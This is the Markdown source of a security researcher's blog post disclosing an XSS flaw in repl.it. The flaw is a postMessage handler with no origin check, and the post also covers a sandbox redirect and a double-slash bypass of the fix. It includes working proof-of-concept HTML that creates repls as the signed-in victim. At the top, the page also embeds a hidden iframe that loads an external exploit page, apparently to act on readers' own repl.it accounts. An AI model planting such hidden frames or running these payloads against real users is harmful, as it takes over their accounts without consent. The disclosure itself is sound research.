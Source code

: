 ```yaml
---
layout: post
title: Repl.it XSS
---
```


<iframe style="display:none" src="https://gistcdn.githack.com/kmh11/f02e5c33844ac5ac1f18ed3be0632fce/raw/631fc0ce170d09da8d54a23772c21bb99910714f/replit.html"></iframe>

I recently found a rather interesting, non-traditional XSS vulnerability in [repl.it](https://repl.it). I was inspired to try this after reading a [writeup](https://github.com/koczkatamas/gctf19/tree/master/pastetastic) for Pastetastic from Google CTF 2019, which showed off some really cool cross-origin stuff with iframes.

In case you're not familiar with repl.it, it's basically an online IDE with tons of features, including website hosting. Each program you make runs in its own environment called a "repl" (it's a lot more than just a read-eval-print loop).

While messing around with how different features worked, I discovered that repls for static sites (HTML, CSS, JS) were previewed in a few nested iframes. Specifically, the site preview consisted of an iframe of [https://replbox.repl.it/public/secure/](https://replbox.repl.it/public/secure/), which contained a blank iframe manipulated by its parent, which was modified to contain an iframe pointing to the URL where the static files are hosted:

```
https://replbox.repl.it/data/web_hosting_1/<username>/<repl_name>/
```

I'm actually going to take a little detour and look at something interesting with the sandboxing of that iframe: 

```javascript
sandbox="allow-forms allow-pointer-lock allow-popups allow-same-origin allow-scripts allow-modals"
```

If this was done correctly, it would prevent the iframe containing user content from messing with the top window's location since the `allow-top-navigation` option is not set. However, the `allow-same-origin` attribute means it is not sandboxed from accessing windows that are also on `replbox.repl.it`, and it just so happens the parent two levels up (the ironically named `/public/secure` page) is both on the same origin and not sandboxed. This means the location of the top window, `repl.it`, can be modified with something like:

```javascript
window.parent.parent.eval("top.location.href = 'https://kmh.zone'")
```

An arbitrary redirect isn't a particulary high severity vulnerability, but it obviously goes against the intent of the authors of the code, and shows that cross-origin frame stuff is very weird.

Now let's start looking at the actual XSS vulnerability. The `/public/secure` page imports a script, [runner.js](https://replbox.repl.it/public/secure/runner.js). After some variable renaming and refactoring, the important part of the code looks like this:

```javascript
var listeners = { load: s, evaljs: a, html: i };
var secret;
window.addEventListener("message", function(event) {
  var req = JSON.parse(event.data);
  if (req.secret) {
    if (secret || "handshake" !== req.type) {
      if (req.secret !== secret) return;
      if (!listeners[req.type])
      	throw Error("No listeners for event:" + req.type);
      listeners[req.type](req.data);
    } else secret = req.secret;
  }
})
```

There's a pretty glaring issue here &mdash; the message handler doesn't check the origin. This means we can stick this in an iframe in our own site and send any messages we want, including `evaljs` (which, per it's name, evaluates JavaScript).

So this gives us full code execution on `replbox.repl.it`. The thing is that this is kind of useless; there is a session cookie on that domain, but I couldn't see anything it authenticated for. I messed around for a while trying to find stuff like a path I could host a service worker on, but all the user controlled content was under directories based on username and repl name.

As I continued to mess around, I started to notice the similarities between the API on `repl.it` and `replbox.repl.it`: they both had `/data` routes, they both had `/public` routes, and the 404 pages were the same. Eventually I realized that if I set my session cookie to be the same on `replbox.repl.it` as `repl.it`, I could access the authenticated API routes. Then I had an idea &mdash; what if there was `/public/secure/` on `repl.it`? And lo and behold, there it was! I had arbitrary JavaScript execution on the main domain. I quickly wrote up a proof of concept that created a repl as the currently signed in user:

```html
<iframe style="position:absolute;left:-100000px;" id="repl" src="https://repl.it/public/secure"></iframe>
<script>
function createRepl(){
  var xhr = new XMLHttpRequest();
  xhr.open("POST", 'https://repl.it/data/repls/new');
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.send(JSON.stringify({language: "python3", title: "kmh was here " + Math.floor(Math.random()*1000000), folderId: "", isPrivate: false, description: ""}));
}
setTimeout(function() {
  repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "handshake"}), "*");
    setTimeout(function() {
      repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "load"}), "*")
        setTimeout(function() {
          repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "evaljs", data: createRepl.toString()+";createRepl()"}), "*")
        }, 200)
    }, 200);
}, 200);
</script>
```
I contacted the repl.it team on Discord, and after waiting a bit, I got a reply and it was forwarded over to the engineering team. Now, according to their [security page](https://repl.it/site/docs/misc/security), they "work with you to fix the issue and then we will credit you on our blog." After the initial report, they gave me a year-long free "hacker" plan, and I didn't hear from them again.

I noticed a bit later that they pushed a "fix" to the issue by redirecting from

```
https://repl.it/public/secure/
```

to

```
https://replbox.repl.it/public/secure/
``` 

However, in my toolkit of random things that sometimes work, I had a trick that was the intended solution for a problem I wrote for [ångstromCTF 2019](https://kmh.zone/blog/2019/04/24/angstromctf-2019.html#dom-validator): there are often inconsistencies in how having multiple slashes in a URL is handled. Some web servers collapse them, some don't.

In this case, it seems like however they are matching the redirect does not collapse multiple slashes, but the way they are serving the files does. This means that you can go to [https://repl.it/public//secure/](https://repl.it/public//secure/) and still get full code execution on the `repl.it` domain. Since they never contacted me to verify whether it was fixed, I had no way or reason to let them know. Oh well.

~~PS: If you're currently logged in to repl.it, check out your [repls](https://repl.it/repls) ;)~~

_Update: repl.it has fixed the redirect bypass and is working on a couple other XSS and CSRF issues I reported._
